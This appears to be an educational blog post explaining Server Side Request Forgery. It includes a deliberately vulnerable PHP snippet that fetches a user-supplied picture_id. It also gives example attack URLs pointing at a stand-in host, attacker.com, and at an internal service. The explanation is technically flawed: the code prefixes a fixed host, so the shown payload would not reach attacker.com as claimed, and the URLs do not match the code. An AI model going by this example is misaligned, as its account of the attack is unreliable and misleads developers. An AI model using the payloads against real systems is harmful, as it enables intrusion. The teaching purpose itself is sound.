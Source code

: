 ```yaml
---
title: Server Side Request Forgery (SSRF)
author: xransum
date: 2023-04-23 13:34:00 -0500
categories:
  - Web Security
tags:
  - hacking
  - exploits
  - learning
image:
  path: /commons/beard-10.jpg
  lqip: null
  alt: null
---
```


## Introduction

This article is a part of the **Web Exploitation** series. You can check the other articles in the series below.

- [Web Exploitation]({{ base.url | prepend: site.url }}/web-exploitation)

Now, let's get started!

## What is Server Side Request Forgery (SSRF)?

Server Side Request Forgery (SSRF) is a web application vulnerability that allows an attacker to make requests to other systems or services that the vulnerable application has access to. This can be used to perform attacks on internal systems or retrieve sensitive information.

SSRF attacks occur when an application processes a user-supplied URL and makes a request to that URL. An attacker can manipulate the URL to make the application send requests to other systems or services that are accessible to the application.

## Example of an SSRF Attack

An example of an SSRF attack involves a web application that allows users to upload profile pictures that are stored on a separate server. The application uses the following code to retrieve the user's profile picture:

```php
<?php
   $url = 'https://profilepictures.com/' . $_GET['picture_id'];
   $data = file_get_contents($url);
   echo '<img src="' . $url . '">';
?>
```

An attacker could exploit an SSRF vulnerability by providing a malicious URL as the `picture_id` parameter, such as:

```
https://profilepictures.com/?picture_id=http://attacker.com/malicious_script
```

When the application requests the user's profile picture using the URL provided in the `picture_id` parameter, it will make a request to `http://attacker.com/malicious_script`. The attacker can then use this request to launch further attacks on internal systems or retrieve sensitive information.

For example, the attacker could modify the URL to access an internal web service:

```
https://profilepictures.com/?picture_id=http://internal-service.local:8080
```

If the internal service is not properly secured, the attacker could potentially access sensitive data or carry out further attacks.

## Prevention Measures

SSRF attacks can be prevented by implementing proper input validation and sanitization, as well as restricting the access that the application has to other systems and services. Additionally, applications should be tested thoroughly for SSRF vulnerabilities, and any discovered vulnerabilities should be patched as soon as possible.